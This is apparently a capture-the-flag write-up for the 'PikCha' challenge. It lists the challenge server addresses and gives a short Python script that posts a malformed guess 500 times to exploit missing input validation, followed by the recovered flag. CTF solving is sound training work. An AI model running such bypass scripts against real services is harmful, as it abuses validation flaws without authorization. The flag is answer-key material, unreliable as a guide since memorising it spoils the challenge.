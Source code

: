 # PikCha

>http://104.197.195.221:8084 >http://34.121.84.161:8084
>
>Created by Soul#8230

The server doesn't valid the input.
## python script
```python3
#!/usr/bin/env python3

import requests

URL = "http://104.197.195.221:8084/"


payload = {'guess':'a a a a'}
session = requests.Session()
session.get(url = URL)

i=0
while i != 500:
    r = session.post(url = URL, data = payload)
    i=i+1
    print(r.text)

```



`UMASS{G0tt4_c4tch_th3m_4ll_17263548}`
